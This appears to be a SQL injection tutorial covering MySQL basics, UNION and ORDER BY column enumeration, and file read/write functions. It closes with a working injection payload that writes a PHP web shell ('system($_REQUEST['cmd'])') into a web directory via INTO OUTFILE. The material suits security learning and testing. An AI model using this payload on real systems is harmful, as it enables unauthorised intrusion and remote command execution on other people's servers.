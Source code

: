 #### 0.0. Classic MySQL error message

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for 
the right syntax to use near ''' at line 1
```

#### 1.1. About databases

Database anatomy:

- a database sever (MySQL, MS-SQL, PostgreSQL) may contain one or more databases
- each database has a number of tables
- each table has one or more columns (keys) and rows (values)
- the rows are also called database records or database entries

Database administration:

- a database server connection requires login credentials
- database access control can be set per user/role (w/ or w/o administrative privileges)
- database roles can restrict permissions to what actions a user can perform:
  - only `root` user has access to DMBS-related assets (e.g. `mysql` database from MySQL)
  - user `app_user` has access to application databases
  - file system access (I/O)
  - CRUD permissions must be specified explicitly


#### 1.2. MySQL keywords - generic

```
ALTER  : Modify tables with ALTER TABLE
CREATE : Make new database, table, or index
DELETE : Remove rows from tables
DROP   : Remove databases or tables
INDEX  : Create or remove indexes for tables
INSERT : Add rows to tables
SELECT : Select records from tables
UPDATE : Modify records in tables

GRANT OPTION   : grant or remove other users' privileges
ALL PRIVILEGES : MySQL user full access to a designated database
```


#### 1.3. MySQL keywords - `UNION / LIMIT`

```
mysql> SELECT x,y,z FROM table_1 UNION SELECT a,b,c FROM table2;
```

Will concatenate two (or more) `SELECT` result tables together as `DISTINCT` results only; 
`UNION ALL` should be used for duplicate values. Each `SELECT` statement must have the same 
number of columns, otherwise the DBMS will throw an error. Depending on the DBMS, columns must 
also have similar data type, and must be selected in the same order.

What if following query returns 100000 results?
```
mysql > SELECT * FROM news WHERE u_id = 121;
```

Limit the results to first 100 entries:
```
mysql> SELECT * FROM news WHERE news_id = 121 LIMIT 100;
mysql> SELECT * FROM news WHERE news_id = 121 LIMIT {x};
```
Where `{x}` is an integer (0, 1, 2, 3, etc...)


#### 1.4. MySQL keywords - `ORDER BY`

`ORDER BY` can be used in SQL injection to determine the number of columns to be used for 
exfiltration via `UNION SELECT`. Where {x} is the column index to be ordered by 
(e.g. `ORDER BY 4` means order by column with index `4`).

Data in result set can be ordered by specific column/type:
```
mysql> SELECT X,Y,Z FROM table1 ORDER BY 3;
mysql> SELECT X,Y,Z FROM table1 ORDER BY {x};
```

#### 1.5. File access

Working with files:
```
mysql> SELECT ... LOAD_INFILE # read file
mysql> SELECT INTO OUTFILE/DUMPFILE # write file
```

Writing a PHP backdoor (injection payload):
```
f' UNION SELECT "<?=system($_REQUEST['cmd']);?>" INTO OUTFILE '/var/www/html/images/13.php'#
```
